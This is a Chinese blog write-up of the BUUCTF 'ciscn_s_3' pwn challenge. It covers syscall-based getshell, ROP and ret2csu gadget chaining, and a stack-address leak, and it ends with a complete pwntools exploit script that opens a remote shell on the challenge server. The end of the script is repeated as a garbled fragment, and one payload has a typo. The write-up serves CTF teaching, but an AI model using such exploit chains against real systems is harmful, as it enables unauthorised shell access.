


<!--yml
category: 未分类
date: 2022-04-26 14:42:35
-->

# buuctf:ciscn_s_3题解_xi@0ji233的博客-CSDN博客

> 来源：[https://blog.csdn.net/adsfnkldaws/article/details/117336346](https://blog.csdn.net/adsfnkldaws/article/details/117336346)

* * *

title: 系统调用的学习
date: 2021-05-25 22:00:00
tags:

*   binary security
*   study report
*   syscall
    comments: true
    categories:
*   ctf
*   pwn

* * *

`today`新的知识又增长了，发现了`getshell`的另一种方式：`syscall`和`srop`。故事还要源于…(此处省略万字输出)

(note:本作者这次有点懒，没有写AT&T汇编，而是一律用了intel汇编，请悉知)

可能是之前汇编基础不太好吧，竟没有发现`syscall`这么好用的指令，只要再把`/bin/sh`传参就能直接打开一个shell，真是妙蛙。但是在系统调用之前要做很多的事情，诸如各类参数传递，以64位的来说，我们要先知道我们要执行的函数系统调用号为59。我也是翻过`libc`库的，发现`system`函数实现里面有一段竟然是直接执行`execve("/bin/sh")`



实属意外了，这是在我有次反汇编`libc`库的时候发现的，我原来一直是只用`system`函数`getshell`的，没想到`system`内部是通过这样的系统调用来打开`shell`的。

那这得学啊，这是基础的基础啊。

这边给出一下64位Linux的各个系统调用号，这个在Linux的`/usr/include/asm/unistd.h`下有，我这里截取部分。

```
 #ifndef _ASM_X86_UNISTD_64_H
#define _ASM_X86_UNISTD_64_H 1

#define __NR_read 0
#define __NR_write 1
#define __NR_open 2
#define __NR_close 3
#define __NR_stat 4
#define __NR_fstat 5
#define __NR_lstat 6
#define __NR_poll 7
#define __NR_lseek 8
#define __NR_mmap 9
#define __NR_mprotect 10
#define __NR_munmap 11
#define __NR_brk 12
#define __NR_rt_sigaction 13
#define __NR_rt_sigprocmask 14
#define __NR_rt_sigreturn 15
#define __NR_ioctl 16
#define __NR_pread64 17
#define __NR_pwrite64 18
#define __NR_readv 19
#define __NR_writev 20
#define __NR_access 21
#define __NR_pipe 22
#define __NR_select 23
#define __NR_sched_yield 24
#define __NR_mremap 25
#define __NR_msync 26
#define __NR_mincore 27
#define __NR_madvise 28
#define __NR_shmget 29
#define __NR_shmat 30
#define __NR_shmctl 31
#define __NR_dup 32
#define __NR_dup2 33
#define __NR_pause 34
#define __NR_nanosleep 35
#define __NR_getitimer 36
#define __NR_alarm 37
#define __NR_setitimer 38
#define __NR_getpid 39
#define __NR_sendfile 40
#define __NR_socket 41
#define __NR_connect 42
#define __NR_accept 43
#define __NR_sendto 44
#define __NR_recvfrom 45
#define __NR_sendmsg 46
#define __NR_recvmsg 47
#define __NR_shutdown 48
#define __NR_bind 49
#define __NR_listen 50
#define __NR_getsockname 51
#define __NR_getpeername 52
#define __NR_socketpair 53
#define __NR_setsockopt 54
#define __NR_getsockopt 55
#define __NR_clone 56
#define __NR_fork 57
#define __NR_vfork 58
#define __NR_execve 59
#define __NR_exit 60
#define __NR_wait4 61
#define __NR_kill 62 
```

emm，经过多方取证呢，发现打开shell不仅要给第一个参数传上`/bin/sh`字符串，第二第三个字符串都需要置零。64位呢前六个参数是依次给`rdi,rsi,rdx,rcx,r8,r9`这六个寄存器的。那么我们传参过程就比较艰难，注入代码首先肯定不现实，现在题目基本都是NX保护的挺到位的。所以要去程序里面寻找`gadget`，由于`pop %rbx`这个`gadget`巨难找，在实际应用要懂得变通，比如先给一个寄存器我想要的值然后再`mov`给`rdx`，有一样的效果。

由此就衍生出来一个`return to __libc_csu_init`简称`ret2csu`的方法来，其实这个我个人认为没有必要单独拿出来讲，因为就是因为这个特殊的函数基本蕴含了很多时候我们需要的`gadget`才会被如此传唱的，会了基本的`rop`攻击就行，`ret2csu`的原理跟这个就一模一样。

一般的payload就是

```
payload=fill_data+fake_rbp+(mov rax,59)+pop_rdi+bin_sh_addr+pop_rsi+0+pop_rdx+0 
```

这是一般的payload，如果找不到对应的gadget，可以自己适当变通。

### 分析程序

64位无壳的elf程序，扔进`IDA`竟发现`plt`表只有可怜的两项，并且实用性也不大的那种。在一般的`ret2libc`中我们一般通过一个输出函数`(puts,write,printf)`来泄露地址，然而这里没有可以利用的输出函数，如果你想模仿下面输出一个`plt`表项内容也可以，不拦你，只是你费尽心思用系统调用的`puts`或者`write`为何不直接用`execve`直接`getshell`呢？所以我们就确定我们采用`syscall`的方式去`getshell`。

### 寻找漏洞

这一个可以说很明显的一个栈溢出漏洞了，`read` `0x400`字节的数据，且缓冲区特别小。

### 第一次溢出

由于程序并未直接提供`/bin/sh`字符串，因此我们要靠自己，然后最后填上一个`main`实现二次溢出，第一次写`/bin/sh`，第二次执行`execve("/bin/sh")`。

* * *

这里提出一点我自己的看法，我认为这个题目有点问题，vlun函数很可能存在栈不平衡的情况，理由有两点

1.程序正常执行(无溢出)无法正常结束

2.给`24`字节大小的数据可以直接覆盖`rip`，因为我的理解是缓冲区大小`16`字节再加上一个`rbp 8`字节应该`24`个字节才刚刚覆盖到`rbp`的位置，而无法覆盖返回地址的。

* * *

而且由于我们要调用栈上的数据，且栈是动态的，我们无法准确得知我们写的`/bin/sh`字符串的所在位置，因此我们第一次溢出可谓是身负重担，不仅要提供`/bin/sh`字符串还要泄露栈的地址。由于程序只有下面的

```
sys_write(1u, buf, 0x30uLL); 
```

因此我们必须通过这个函数泄露点什么。

想想当时程序调用的栈帧是什么样的，什么内容是跟栈的地址有关的。

```
高地址↑
buf in vlun

rbp for main
rip for main
rbp for main's father function
rip for main's father function
低地址↓ 
```

如此我们也可以清楚看到，首先main的rbp是肯定被我们覆盖了的(PS 虽然现在好像是没有的)，然后后面还有一个调用main函数的那个函数的rbp，那个可以确定栈的地址，能输出这个之后我们就可以开始算偏移了。

gdb调试算算rbp与它们之间的偏移，这里需要注意由于栈不平衡的原因，我们需要手动调一下rip让程序不要异常退出，然后我们调试到leave指令可以观察到此时的栈。

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-hVFUjP8q-1622116149409)(https://i.loli.net/2021/05/25/9jhLFiKV2cxZ3EA.png)]

在地址0x7fffffffde20的地方存了__libc_start_main函数的rbp=0x7fffffffdf28，那么计算一下偏移就是264，当前的rsp是main函数的rsp是vlun函数的rbp，所以我们泄露出来的这个地址与vlun函数的rbp偏移了264字节，然后再有16字节的缓冲区，如果我们再缓冲区开始写入`/bin/sh`字符串的话那么偏移就有280字节的大小。

然而这些应该是第二次溢出考虑的问题，这里只是分析一下泄露地址的可行性。

第一次的payload比较简单

```
payload=b'/bin/sh\0'*2+p64(main) 
```

然后接受准备接收rbp，但是在改rip的过程中发现这里还是有0x20个字节才能到rbp的，但是我能直接略过rbp覆盖rip就有点离谱，就不知道main的rbp是存在哪了，也许是存在rip后面了。这个我也不太能讲的清楚，希望有师傅明白的话能为我解答一下，感激不尽。

```
p.sendline(payload)
p.recv(0x20)
rbp=u64(p.recv(8))
bin_sh=rbp-280 
```

那么第一次溢出完美的构造了`/bin/sh`字符串并且获得了它的地址。

### 第二次溢出

第二次溢出要准备的东西就有点多了。

#### 寻找gadget

我们需要的gadget有

```
pop rax
syscall
pop rdi
pop rsi
pop rdx 
```

经过努力的寻找我们找到了mov rax,59用于代替pop rax，syscall本来就有，pop rdi很好找，pop rsi也有，唯独就是pop rdx找不着，但是关于rbx的gadget可以看到有一个mov rdx,r13，在libc_csu_init函数有一堆的pop寄存器的操作，我们也可以很容易找到pop r13，那么pop r13和mov rdx,r13两个一结合不就是pop rdx嘛，对吧。

但是需要注意的是，mov rdx,r13后面跟的并不是ret，所以在执行mov rdx,13这个gadget时候，要把rip及时地劫持回来。它运行到后面之后会执行call ptr[r12+rbx*8]，并且，rbx,rbp,r12~r15都是我们可以随意改的。

rbx我们置零，r12我们放在我们payload上面的其中一个地方能让它接着执行就可以了。

那么我们先写payload

```
payload=b'/bin/sh\0'*2+p64(pop_rbx_rbp)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdx)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall) 
```

就是原本传给r12的偏移我用的是+0x48的，结果给报错了，反正这个题挺神奇的，就是感觉少了八字节的数据在里面但是好像又没少，希望有师傅能为我解答一下这个困惑，但是我一般遇到这种情况就偏移多8少8都试试看，如果是32位那就上下偏移4看看。

最后给师傅们看看结果吧



### exp

```
from pwn import *
p=remote('node3.buuoj.cn',28330)
main=0x0004004ED
mov_rax=0x04004E2
pop_rdi=0x4005a3
pop_rbx_rbp_r12_r13_r14_r15=0x40059A
mov_rdxr13_call=0x0400580 
syscall=0x00400517

payload=b'/ban/sh\x00'*2+p64(main)
p.send(payload)

p.recv(0x20)
rbp=u64(p.recv(8))
bin_sh=rbp-280

payload=b'/bin/sh\0/bin/sh\0'+p64(pop_rbx_rbp_r12_r13_r14_r15)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdxr13_call)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall)
p.send(payload)
p.interactive() 
```

.recv(8))
bin_sh=rbp-280

payload=b’/bin/sh\0/bin/sh\0’+p64(pop_rbx_rbp_r12_r13_r14_r15)+p64(0)*2+p64(bin_sh+0x50)+p64(0)*3+p64(mov_rdxr13_call)+p64(mov_rax)+p64(pop_rdi)+p64(bin_sh)+p64(syscall)
p.send(payload)
p.interactive()